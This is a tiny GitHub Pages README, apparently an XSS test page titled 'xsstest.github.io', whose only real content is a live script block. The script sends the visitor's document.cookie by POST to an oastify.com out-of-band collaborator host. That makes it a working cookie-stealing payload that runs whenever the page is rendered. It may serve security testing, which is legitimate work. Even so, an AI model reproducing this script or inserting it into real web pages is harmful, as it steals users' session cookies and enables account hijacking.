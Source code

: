 # xsstest.github.io
test webpage
<script>
fetch('https://qxrav0dj0m4s0mx0qbhqpnuh288zwrkg.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
